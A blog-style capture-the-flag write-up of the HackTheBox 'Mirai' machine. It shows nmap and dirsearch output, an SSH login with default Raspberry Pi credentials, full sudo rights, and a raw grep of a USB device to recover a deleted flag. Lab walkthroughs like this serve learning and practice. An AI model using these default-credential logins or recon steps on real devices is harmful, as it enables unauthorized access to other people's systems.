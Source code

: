 ```yaml
---
layout: post
title:  "HackTheBox :: Mirai"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Cool box based off a cool concept that swept the earth.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
# Dirsearch results
```
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/cookies.js
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/login.js
[04:08:09] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/
[04:08:10] 200 -   61B  - /admin.js
[04:09:11] 200 -   14KB - /admin/?/login
[04:09:11] 200 -   14KB - /admin/
[04:09:11] 200 -   14KB - /admin/index.php
[04:09:42] 200 -   61B  - /Brocfile.js
[04:09:42] 200 -   61B  - /brunch-config.js
[04:09:47] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[04:09:48] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/login.js
[04:10:11] 200 -   61B  - /Gruntfile.js
[04:10:11] 200 -   61B  - /gulpfile.js
[04:10:33] 200 -   61B  - /mimosa-config.js
[04:11:10] 200 -   61B  - /swfobject.js
[04:11:20] 200 -   61B  - /v1/test/js/console_ajax.js
```

# Getting user
Mirai was a botnet that abused iot devices with default credentials. We can try this too since the webapp leaks what the box might be.
```
ssh pi@10.10.10.48 : raspberry (default)
```
We can get our user flag.

# Getting root
A sudo check shows us the first part to getting root.
```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Reading root.txt we get the following message.
```
“”root.txt"" = 'I lost my original root.txt! I think I may have a backup on my USB stick...'
```

We can use df to check system devices for external media.
```
We use the df command in unix to check system devices
/dev/sdb            8887      93      8078   2% /media/usbstick
mounted to /dev/sdb

root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
ahhhhhh more steps. Lets just grep out the filesystem for a flag.
```
grep -a -B 35 -A 120 'root' /dev/sdb
```
Finally we get our flag
